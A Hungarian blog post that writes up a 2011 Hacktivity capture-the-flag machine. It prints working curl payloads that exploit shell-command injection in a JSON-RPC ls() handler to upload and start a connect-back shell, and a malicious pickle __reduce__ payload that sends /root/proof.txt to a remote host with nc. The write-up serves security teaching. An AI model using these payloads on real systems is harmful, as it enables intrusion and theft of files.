 Hacktivity 2011 CtF leírás - 3. rész (NagyonKígyó)
==================================================

Eredeti publikálás dátuma: 2011-10-05 04:32:57

Végre sikerült időt szakítanom az utolsó CtF-es feladat megoldásának leírására. Korábban már említettem, hogy ez egy OpenBSD-s gép volt. Aki emiatt valami OpenBSD-specifikus fekete mágiára számított, sajnos csalódni fog, python kódokban elkövetett hibákat kellett kihasználnunk a rootra töréshez :D

Mivel el kellett mennem RCE workshopot tartani, a gép user szintre törésében nem vettem részt, így az itt leírtak a csapattársaimtól származó infók alapján, a sebezhető szerver saját gépen való futtatása, exploitálása során összeszedett tapasztalatokat mutatják be. Emiatt előre is elnézést az esetleges pontatlanságokért.

A gépen futó webszerver egy Java appletet tartalmazott, mellyel egy adott direktoriban lévő képeket lehetett nézegetni. A jar fájl kicsomagolása után a hu.silentsignal csomagban lévő CTF2011Applet.class fájlra ráeresztett jad után megvolt az alkalmazás forrása.

Ebből kiderült, hogy az applet TLS-en keresztül, JSON-RPC protokollon kommunikál a szerverrel:

```
JsonRpcHttpClient jsonrpchttpclient = 
	new JsonRpcHttpClient(new URL(
	(newStringBuilder()).append(getCodeBase().toString()).
	append("rpc.json").toString()));
svc = (Service)ProxyUtil.createProxy(getClass().getClassLoader(), 
	hu/silentsignal/CTF2011Applet$Service, jsonrpchttpclient);
KeyStore keystore = KeyStore.getInstance("JKS");
keystore.load((new URL(
	(newStringBuilder()).append(getCodeBase().toString()).
	append("ts.jks").toString())).openStream(), 
	"pop3szakma".toCharArray());
TrustManagerFactory trustmanagerfactory =
	TrustManagerFactory.getInstance(TrustManagerFactory.
	getDefaultAlgorithm());
trustmanagerfactory.init(keystore);
SSLContext sslcontext = SSLContext.getInstance("TLS");
sslcontext.init(null, trustmanagerfactory.getTrustManagers(), null);
JsonRpcHttpClient.sf = sslcontext.getSocketFactory();
```

Az is kiderült, hogy az applet két metódust hívogat. Az egyik az argumentumként megadott direktorit listázza, a másik pedig a megadott direktoriban a megadott fájl tartalmát adja vissza Base64 kódolva. Ez tök jó, már csak egy módszer kell, amivel ezeket a metódusokat mi magunk tudjuk hívni, hogy ne legyünk limitálva az applet által.

Itt van a fejemben egy kis kavarodás, ugyanis csapattársaim azt mondták, hogy tunnelezték a szervizt localhostra (gondolom socat-tal), és úgy mókoltak a Python httplib-jét használva. Nem teljesen látom, hogy erre miért volt szükség, így azt a módszert mutatom be, ami a saját gépen futtatott szervizzel működött.

Én nem játszottam tunnelezéssel, simán curl-lel oldottam meg a dolgot:

```
[0x00 OPENBSD]$ curl -d '{"id":1,"jsonrpc":"2.0","method": \\
> "getFileList","params":["."]}' -H 'Content-type: \\
> application/json' https://localhost:4444/rpc.json
```

Persze ez így sajnos nem megy, mert a curl nem tudja ellenőrizni a szerver által felajánlott tanúsítványt. Sebaj, egy -k kapcsolóval rávehetjük, hogy ne is akarja. A . direktori tartalmának lekérdezése valahogy így néz ki:

```
[0x00 OPENBSD]$ curl -k -d '{"id":1,"jsonrpc":"2.0","method":\\
> "getFileList","params":["."]}' -H 'Content-type: \\
> application/json' https://localhost:4444/rpc.json
{"jsonrpc": "2.0", "id": 1, "result": ["web"]}
```

Nagyon jó, tudunk direktorikat listázni, nézzünk kicsit körül! Nem túl nagy meló megtalálni megát a szervert, ami mint kiderült, egy pythonban, a Cherrypy framework felhasználásával készült alkalmazás. A getFileContents RPC hívással meg is nézhetjük a tartalmát:

```
[0x00 OPENBSD]$ curl -k -d '{"id":1,"jsonrpc":"2.0","method": \\
> "getFileContents","params":["..","server.py"]}' -H 'Content-type: \\
> application/json' https://localhost:4444/rpc.json
{"jsonrpc": "2.0", "id": 1, "result": 
"IyEvdXNyL2Jpbi9lbnYgcHl0aG9uCiMKIyBTaWxlbnRTaWduYWwgQ1RGID
IwMTEgSlNPTi1SUEMgc2VydmljZQojIGJ5IGRuZXQgPGRuZXRAc2lsZW50c
2lnbmFsLmh1PgojCiMgRGVwZW5kZW5jaWVzOiBqc29ucnBjMiAoRGViaWFu
IGlzIE9LKSwgY2hlcnJ5cHkgKGVhc3lfaW5zdGFsbCBpcyBwcmVmZXJyZWQ
pCgpmcm9tIF9fZnV0dXJlX18gaW1wb3J0IHdpdGhfc3RhdGVtZW50CmZyb2
0ganNvbnJwYzIgaW1wb3J0IEpzb25ScGNBcHBsaWNhdGlvbgpmcm9tIGNoZ
XJyeXB5IGltcG9ydCB3c2dpc2VydmVyLCBBcHBsaWNhdGlvbgpmcm9tIGNo
ZXJyeXB5LndzZ2lzZXJ2ZXIuc3NsX3B5b3BlbnNzbCBpbXBvcnQgcHlPcGV
uU1NMQWRhcHRlcgpmcm9tIHN1YnByb2Nlc3MgaW1wb3J0IFBvcGVuLCBQSV
BFCmZyb20gYmFzZTY0IGltcG9ydCBiNjRlbmNvZGUKaW1wb3J0IHJlCmltc
G9ydCBvcwoKZGVmIGNhdChkaXJuYW1lLCBmaWxlbmFtZSk6CglkaXJuYW1l
ID0gZGlybmFtZS5yZXBsYWNlKCcuLycsICcnKQoJaWYgbm90IHJlLm1hdGN
oKCdeW2EtekEtWjAtOVwuX1wtXCBdKiQnLCBkaXJuYW1lICsgZmlsZW5hbW
UpOgoJCXJhaXNlIFJ1bnRpbWVFcnJvcignRmlsZSBvciBkaXJlY3Rvcnkgb
mFtZSBjb250YWlucyBpbnZhbGlkIGNoYXJhY3RlcihzKScpCgl3aXRoIG9w
ZW4ob3MucGF0aC5qb2luKGRpcm5hbWUsIGZpbGVuYW1lKSwgJ3JiJykgYXM
gZjoKCQlyZXR1cm4gYjY0ZW5jb2RlKGYucmVhZCgpKQoKZGVmIGxzKGRpcm
5hbWUpOgoJaWYgcmUuc2VhcmNoKHInKCJ8XFx8YCknLCBkaXJuYW1lKToKC
QlyYWlzZSBSdW50aW1lRXJyb3IoJ0RpcmVjdG9yeSBuYW1lIGNvbnRhaW5z
IGludmFsaWQgY2hhcmFjdGVyKHMpJykKCWNtZCA9IFBvcGVuKCdscyAiJXM
iJyAlIGRpcm5hbWUsIHNoZWxsPVRydWUsIHN0ZG91dD1QSVBFKQoJcmV0dX
JuIGZpbHRlcihOb25lLCBjbWQuY29tbXVuaWNhdGUoKVswXS5zcGxpdCgnX
G4nKSkKCmNsYXNzIEluZGV4QXBwOgoJcGFzcwoKZGVmIG1haW4oKToKCWNv
bmZpZyA9IHsnLyc6IHsndG9vbHMuc3RhdGljZGlyLm9uJzogVHJ1ZSwKCQk
ndG9vbHMuc3RhdGljZGlyLmluZGV4JzogJ2N0ZjIwMTEuaHRtbCcsCgkJJ3
Rvb2xzLnN0YXRpY2Rpci5kaXInOiAnJXMvd2ViJyAlIG9zLmdldGN3ZCgpf
X0KCW9zLmNoZGlyKCdyb290JykKCWpzb25fcnBjX2FwcCA9IEpzb25ScGNB
cHBsaWNhdGlvbihycGNzPWRpY3QoZ2V0RmlsZUNvbnRlbnRzPWNhdCwgZ2V
0RmlsZUxpc3Q9bHMpKQoJaW5kZXhfYXBwID0gQXBwbGljYXRpb24oSW5kZX
hBcHAoKSwgY29uZmlnPWNvbmZpZykKCWRpc3AgPSB3c2dpc2VydmVyLldTR
0lQYXRoSW5mb0Rpc3BhdGNoZXIoeycvJzogaW5kZXhfYXBwLCAnL3JwYy5q
c29uJzoganNvbl9ycGNfYXBwfSkKCXNlcnZlciA9IHdzZ2lzZXJ2ZXIuQ2h
lcnJ5UHlXU0dJU2VydmVyKCgnMC4wLjAuMCcsIDQ0NDQpLCBkaXNwKQoJc2
VydmVyLnNzbF9hZGFwdGVyID0gcHlPcGVuU1NMQWRhcHRlcignLi4vc2Vyd
mVyLWNlcnQucGVtJywgJy4uL3NlcnZlcnByaXZrZXkucGVtJywgJy4uL3Nl
cnZlci1jZXJ0LnBlbScpCglzZXJ2ZXIuc3RhcnQoKQoKaWYgX19uYW1lX18
gPT0gJ19fbWFpbl9fJzoKCW1haW4oKQo="}
```

Ezt dekódolva kapjuk a szerver forrását (néhol van bent pár plusz sortörés, hogy kiférjen :) ):

```
#!/usr/bin/env python
#
# SilentSignal CTF 2011 JSON-RPC service
# by dnet <dnet@silentsignal.hu>#
# Dependencies: jsonrpc2 (Debian is OK), 
# cherrypy (easy_install is preferred)

from __future__ import with_statement
from jsonrpc2 import JsonRpcApplication
from cherrypy import wsgiserver, Application
from cherrypy.wsgiserver.ssl_pyopenssl import pyOpenSSLAdapter
from subprocess import Popen, PIPE
from base64 import b64encode
import re
import os

def cat(dirname, filename):
  dirname = dirname.replace('./', '')
  if not re.match('^[a-zA-Z0-9\\._\\-\\ ]*/dnet@silentsignal.hu>', dirname + filename):
    raise RuntimeError('File or directory name \\
	  contains invalid character(s)')
  with open(os.path.join(dirname, filename), 'rb') as f:
    return b64encode(f.read())

def ls(dirname):
  if re.search(r'("|\\\\|`)', dirname):
    raise RuntimeError('Directory name \\
	  contains invalid character(s)')
  cmd = Popen('ls "%s"' % dirname, shell=True, stdout=PIPE)
  return filter(None, cmd.communicate()[0].split('\\n'))

class IndexApp:
  pass

def main():
  config = {'/': {'tools.staticdir.on': True,
    'tools.staticdir.index': 'ctf2011.html',
    'tools.staticdir.dir': '%s/web' % os.getcwd()}}
  os.chdir('root')
  json_rpc_app = JsonRpcApplication(rpcs=dict(getFileContents=cat, 
    getFileList=ls))
  index_app = Application(IndexApp(), config=config)
  disp = wsgiserver.WSGIPathInfoDispatcher({'/': index_app, 
    '/rpc.json': json_rpc_app})
  server = wsgiserver.CherryPyWSGIServer(('0.0.0.0', 4444), disp)
  server.ssl_adapter = pyOpenSSLAdapter('../server-cert.pem', 
    '../serverprivkey.pem', '../server-cert.pem')
  server.start()

if __name__ == '__main__':
  main()
```

Hamar megtalálható a bug, amit kihasználva parancsokat tudunk futtatni a rendszeren. Az ls függvény argumentuma átesik ugyan egy szűrésen, de valami kimarad: a $() módszerrel megvalósított parancsfuttatás nincs szűrve. Így direktorinévnek pl. "$(cat /etc/passwd)"-t megadva kilistázhatjuk az /etc/passwd fájlt. Persze a parancs kimenetét nem láthatjuk, hiszen azt az ls parancs kapja meg direktorinévként. Ezt egyrészt át lehet hidalni (pl. nc-re pipe-oljuk a parancs kimenetét), másrészt nem érdekel a parancsok kimenete, ha pl. egy connectback shell-t töltünk fel a szerverre:

```
[0x00 OPENBSD]$ curl -k -d '{"id":1,"jsonrpc":"2.0","method": \\
> "getFileList","params":["$(nc -l 1313 > bd.pl)"]}' \\
> -H 'Content-type: application/json' \\
> https://localhost:4444/rpc.json 
```

és indítunk el:

```
[0x00 OPENBSD]$ curl -k -d '{"id":1,"jsonrpc":"2.0","method": \\
> "getFileList","params":["$(perl bd.pl localhost 2222)"]}' \\
> -H 'Content-type: application/json' \\
> https://localhost:4444/rpc.json
```

Tehát van egy user szintű shellünk a gépen, innen a proof.txt megtalálása már csak egy find-ba kerül :)

Okés, megvan a user szint, valahogyan root-ot kellene szerezni. Találtunk egy python-ban írt klienst, amivel az /etc/motd tartalmát lehetett változtatni. Mivel az /etc/motd-t csak a root tudja írni, a klienshez tartozó szerver root jogokkal kell fusson. Megtaláltuk a kaput, már csak ki kell nyitni :)

A kapuhoz kulcsunk nincs, viszont ki tudjuk pickelni. Illetve c**Pick**le-ni (bocs, tudom, szar, de muszáj volt ellőni :D ) Ugyanis a kliens az új motd tartalmat cPickle-lel szerializálja, és így küldi a szervernek. Miért jó ez nekünk? Idézet a pickle doksiból:

```
**Warning:** The pickle module is not intended to be secure 
against erroneous or maliciously constructed data. Never 
unpickle data received from an untrusted or unauthenticated 
source.
```

A probléma az, hogy a szerializált adatot valahogy deszerializálni kell. Azt, hogy ennek hogyan kell történnie, a szerializált adat mondja meg. Tehát mondhatom azt, hogy az én objektumom kibontásának az a módja, hogy nyitok egy connectback shellt valami távoli gép felé :)

Ezen a ponton elővehetnénk a pickle doksit, megnézhetnénk, hogyan is néz ki egy ilyen szerializált adatfolyam, és kézzel összerakhatnánk egy olyat, ami kibontáskor nyit egy shell-t. Azonban van egy másik megoldás is: a [__reduce__()](http://docs.python.org/library/pickle.html#object.__reduce__) metódus.

Kibontáskor a pickler megnézi, hogy a kibontani kívánt objektum implementálja-e a fent említett metódust. Amennyiben igen, meghívja. A metódus kétféle típussal térhet vissza: vagy egy string-gel, vagy egy tuple-lel. Nekünk a második alternatíva a nyerő. A tuple kettő, három, négy, vagy öt tagú lehet; nekünk elég lesz kettő. Az első tag egy callable objektum, a második pedig egy tuple, ami az első tagnak átadott argumentumokat tartalmazza.

Innen elég egyértelmű, hogy a callable egy subprocess.Popen lesz, az argumentumlista meg bármi, amivel olvashatóvá tehetjük számunkra a /root/proof.txt-t. Nem emlékszem már, hogy mit használtunk pontosan, de pl. ez a megoldás működhet:

```
class GetProofTxt(object) :
  def __reduce__(self):
    return (subprocess.Popen, (('sh', '-c', \\
      'nc 192.168.20.130 5555 < /root/proof.txt'),))
```

Egy ilyen objektumot szerializálva elküldve a MOTD update-elő szervernek, már érkezik is a proof.txt tartalma az 5555-ös portunkra.

Nos, hát ennyi lenne, ez volt az utolsó CtF-writeup. Kérdések, kritikák, pontosítások jöhetnek :D
